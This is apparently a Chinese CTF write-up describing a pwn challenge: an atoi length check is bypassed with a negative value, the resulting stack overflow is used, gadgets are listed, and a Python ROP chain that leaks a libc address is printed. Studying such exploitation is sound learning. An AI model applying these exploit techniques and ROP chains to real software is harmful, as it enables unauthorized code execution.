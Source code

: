 - payload读入时有个长度校验，但是因为用了`atoi`，有整数溢出漏洞，可以通过负数绕过，然后就可以栈溢出了。

这个题没有canary，但是难点在于没有`pop rdi`gadget。我最终找到了这几个能用的gadget。

```asm
0x00000000004011a8 : pop rax ; add dil, dil ; loopne 0x401215 ; nop ; ret
0x0000000000401290: mov rdi, rax; call 0x38120; pop rbp; ret;
```
前者可以把一个值放进rax，不过后续的loop代码会带来副作用把`rax`减掉`0x2E6B`。后者是初始化`setvbuf`的一部分，可以把rax的值放进rdi，然后调用`setvbuf`，但是`setvbuf`对输入值有相当苛刻的要求（要求rdi指向的内容的许多偏移是可读或者可读写的）。我是经过一些遍历之后，终于试出了一个有一定概率0可以通过的地址：`0x404028`，可以实现打出一个`read`函数的地址，可以泄露LIBC基址。

第一轮完整ROP链条如下，结果来看就是`puts`了`read`，然后重新返回主函数：
```py
rop1 = (
    b""
    + p64(0x4011A8)
    + p64(0x404028 - 0x2E6B)
    + p64(0x401286)
    + p64(0x40101A)
    + p64(0x40101A)
    + p64(0x40101A)
    + p64(0x4010D0)
    + p64(0x4014EC)
    + p64(0x40101A) * 10
    + p64(0xDEADBEEF)
)
```

有LIBC之后第二轮getshell就是常规操作了，这里不再赘述。
